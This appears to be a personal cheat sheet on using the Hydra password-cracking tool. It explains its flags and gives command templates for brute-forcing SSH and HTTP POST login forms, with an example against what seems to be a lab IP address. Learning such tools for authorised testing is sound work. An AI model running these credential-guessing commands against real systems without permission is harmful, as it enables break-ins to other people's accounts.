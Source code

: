 # Args
## -l
specifies the username
## -P
indicates the password list
## -t
sets the number of threads to spawn
## -V
sets the output to verbose
# Usage
## SSH
```
hydra -l <username> -P <wordlist> <IP> -t <threads> ssh
```
## HTTP POST FORM
```shell
sudo hydra -l <username> -P <wordlist> <IP> http-post-form "<path>:<login_credentials>:<invalid_response>"
```
example:
```shell
hydra -l <username> -P <wordlist> 10.10.88.56 http-post-form "/:username=^USER^&password=^PASS^:F=incorrect" -V
```